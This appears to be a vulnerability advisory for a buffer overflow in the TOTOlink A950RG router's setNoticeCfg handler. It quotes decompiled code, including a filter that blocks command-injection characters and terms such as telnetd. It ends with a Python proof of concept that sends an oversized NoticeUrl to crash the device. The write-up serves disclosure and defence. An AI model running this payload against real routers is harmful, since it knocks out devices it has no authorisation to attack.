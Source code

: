 # TARGET
Product: TOTOlink A950RG
Fimware: V4.1.2cu.5204_B20210112

# BUG TYPE
Buffer Overflow
# Abstract
The TOTOlink A950RG router device contains a buffer overflow vulnerability in its firmware version V4.1.2cu.5204_B20210112. The vulnerability arises from the improper input validation of the `NoticeUrl` parameter in the `setNoticeCfg` interface of `/lib/cste_modules/system.so`. A remote attacker could exploit this flaw to execute arbitrary code on the system or cause a denial of service.
# Details

By analyzing the `setNoticeCfg` function in `/lib/cste_modules/system.so` using IDA, we find that the entry address of the function is `0x004CCC`. 

![Snipaste_2025-04-05_22-16-38](figures/Snipaste_2025-04-05_22-16-38.png)

At line 45, the function:

1. Extracts a parameter named `NoticeUrl` from the web request
2. Passes this URL to the `GetDomainName` function to extract the domain portion
3. Stores the extracted domain in the `v36` buffer

A buffer overflow vulnerability exists in the `GetDomainName` function. Specifically, variable `a1` is copied to `a2` using `strcpy` without any filtering or length verification. The function doesn't check whether `a2` has sufficient space to store the copied string. Further analysis confirms that the controllable `NoticeUrl` parameter can trigger this buffer overflow vulnerability. In the `setNoticeCfg` function, `v7` corresponds to `a1` and `v36` corresponds to `a2`. If the string pointed to by `v7` exceeds the size of the `v36` buffer, a buffer overflow can occur, potentially overwriting adjacent memory regions and causing undefined behavior.

<img src="figures/Snipaste_2025-04-06_00-44-55.png" alt="Snipaste_2025-04-06_00-44-55" style="zoom:50%;" />

Although the `setNoticeCfg` function includes a `Validity_check` function at line 106, disassembly reveals that this check only looks for specific dangerous characters but does not verify string length.



<img src="figures/Snipaste_2025-04-06_00-24-20.png" alt="Snipaste_2025-04-06_00-24-20" style="zoom: 33%;" />

The `Validity_check` function details:

```c
BOOL __fastcall Validity_check(int a1)
{
  BOOL result; // $v0
  if ( strchr(a1, ';')
    || strstr(a1, ".sh")
    || strstr(a1, "iptables")
    || strstr(a1, "telnetd")
    || strchr(a1, '&')
    || strchr(a1, '|')
    || strchr(a1, '`') )
  {
    result = 1;
  }
  else
  {
    result = strchr(a1, '$') != 0;
  }
  return result;
}
```

Attackers could exploit this buffer overflow vulnerability by sending API requests, using malicious configuration files, or crafting HTTP requests with excessively long "notice" strings, potentially causing program crashes or more severe consequences.

# POC

```python
import requests
url = "http://192.168.0.1/cgi-bin/cstecgi.cgi"

headers = {
    "User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:135.0) Gecko/20100101 Firefox/135.0",
    "Accept": "*/*",
    "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
    "Accept-Encoding": "gzip, deflate",
    "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8",
    "X-Requested-With": "XMLHttpRequest",
    "Origin": "http://192.168.0.1",
    "Connection": "close",
    "Referer": "http://192.168.0.1/adm/notice.asp",
    "Priority": "u=0",
    "Cookie": "SESSION_ID=2:1743870902:2"
    
}

payload = {
    "topicurl": "setting/setNoticeCfg",
    "NoticeEnabled": "1",
    "NoticeUrl": "=http://www.111.com"+"A"*5000,
    "BtnName": "Click here to continue",
    "WhiteListUrl1": "2",
    "WhiteListUrl2": "2",
    "WhiteListUrl3": "4",
    "IpFrom": "1",
    "IpTo": "51",
    "NoticeTimeoutVal": "120"
}

import json
data = json.dumps(payload)

response = requests.post(url, headers=headers, data=data)

print("Status Code:", response.status_code)
print("Response Body:", response.text)
```



![Snipaste_2025-04-06_01-00-54](figures/Snipaste_2025-04-06_01-00-54.png)